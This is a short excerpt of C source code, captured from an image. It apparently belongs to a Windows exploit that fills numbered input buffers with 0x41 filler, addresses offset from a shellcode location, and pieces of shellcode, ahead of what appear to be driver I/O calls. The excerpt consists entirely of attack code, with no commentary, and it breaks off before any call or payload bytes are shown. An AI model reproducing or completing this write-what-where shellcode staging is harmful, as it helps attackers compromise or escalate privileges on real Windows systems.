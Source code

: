 ```c

				unsigned long long one9 = 0x4141414141414141;
				unsigned long long two9 = shellcodeLocation + 0x30;
				unsigned long long three9 = 0x0000000000000000;
				unsigned long long four9 = shellcode7;

				unsigned long long one10 = 0x4141414141414141;
				unsigned long long two10 = shellcodeLocation + 0x38;
				unsigned long long three10 = 0x0000000000000000;
				unsigned long long four10 = shellcode8;

				unsigned long long one11 = 0x4141414141414141;
				unsigned long long two11 = shellcodeLocation + 0x40;
				unsigned long long three11 = 0x0000000000000000;
				unsigned long long four11 = shellcode9;

				inBuf3[0] = one3;
				inBuf3[1] = two3;
				inBuf3[2] = three3;
				inBuf3[3] = four3;

				inBuf4[0] = one4;
				inBuf4[1] = two4;
				inBuf4[2] = three4;
				inBuf4[3] = four4;

				inBuf5[0] = one5;
				inBuf5[1] = two5;
				inBuf5[2] = three5;
				inBuf5[3] = four5;

				inBuf6[0] = one6;
				inBuf6[1] = two6;
				inBuf6[2] = three6;
				inBuf6[3] = four6;

				inBuf7[0] = one7;
				inBuf7[1] = two7;
				inBuf7[2] = three7;
				inBuf7[3] = four7;

				inBuf8[0] = one8;
				inBuf8[1] = two8;
				inBuf8[2] = three8;
				inBuf8[3] = four8;

				inBuf9[0] = one9;
				inBuf9[1] = two9;
				inBuf9[2] = three9;
				inBuf9[3] = four9;

				inBuf10[0] = one10;
				inBuf10[1] = two10;
				inBuf10[2] = three10;
				inBuf10[3] = four10;

				inBuf11[0] = one11;
				inBuf11[1] = two11;
				inBuf11[2] = three11;
				inBuf11[3] = four11;

				DWORD bytesReturned3 = 0;
				DWORD bytesReturned4 = 0;
```